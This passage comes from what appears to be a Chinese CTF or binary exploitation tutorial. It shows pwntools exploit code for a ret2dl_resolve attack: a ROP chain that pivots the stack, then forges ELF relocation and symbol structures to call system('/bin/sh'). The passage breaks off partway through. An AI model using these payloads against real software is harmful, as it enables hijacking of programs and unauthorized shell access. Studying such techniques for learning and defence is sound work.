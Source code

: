 ```
log.info("Leak link_map address:%#x" %(link_map_addr))

```

(3) 进行栈劫持：

```
#注释头
 
payload = ""
payload += 'A'*136 #padding
payload += p64(universal_gadget1) 
payload += p64(0x0)
payload += p64(0x1)
payload += p64(read_got) #使用万能gadgets调用read向新栈中写入数据
payload += p64(0x500)
payload += p64(new_stack_addr)
payload += p64(0x0)
payload += p64(universal_gadget2)
payload += 'A'*0x38 #栈修正
 
payload += p64(pop_rbp_ret) 
#返回到pop rbp; retn，劫持栈。此处直接劫持栈是因为如果继续修改link_map+0x1c8会导致ROP链过长，栈上的环境变量指针被破坏，从而导致system失败。
payload += p64(new_stack_addr)
payload += p64(leave_ret)
 
io.send(payload)

```

(4) 伪造两大结构体和必要数据：

```
#注释头
 
fake_Elf64_Rela_base_addr = new_stack_addr + 0x150 
#新栈上选择一块地址作为伪造的Elf64_Rela结构体基址，稍后还要通过计算进行0x18字节对齐
 
fake_Elf64_Sym_base_addr = new_stack_addr + 0x190
#新栈上选择一块地址作为伪造的Elf64_Sym结构体基址，稍后还要通过计算进行0x18字节对齐，与上一个结构体之间留出一段长度防止重叠
 
fake_st_name = new_stack_addr + 0x1c0 - dynstr_addr 
#计算伪造的st_name数值，为伪造函数字符串system与.dynstr节开头间的偏移
 
binsh_addr = new_stack_addr + 0x1c8 
#"/bin/sh\x00"所在地址，计算得到的
 
#计算两个结构体的对齐填充字节数，两个结构体大小都是0x18
rel_plt_align = 0x18 - (fake_Elf64_Rela_base_addr - relplt_addr) % 0x18 
rel_sym_align = 0x18 - (fake_Elf64_Sym_base_addr - dynsym_addr) % 0x18
 
#加上对齐值后为结构体真正地址
fake_Elf64_Rela_addr = fake_Elf64_Rela_base_addr + rel_plt_align 
fake_Elf64_Sym_addr = fake_Elf64_Sym_base_addr + rel_sym_align
 
fake_reloc_arg = (fake_Elf64_Rela_addr - relplt_addr)/0x18 
#计算伪造的reloc_arg，由于是数组索引下标，所以需要除以结构体大小0x18
 
fake_r_info = (((fake_Elf64_Sym_addr - dynsym_addr)/0x18) << 0x20) | 0x7 
#伪造r_info，偏移要计算成下标，除以Elf64_Sym的大小，最后一字节为0x7
 
 
fake_Elf64_Rela_data = ""
fake_Elf64_Rela_data += p64(write_got) 
#r_offset = write_got，以免重定位完毕回填got表的时候出现非法内存访问错误
```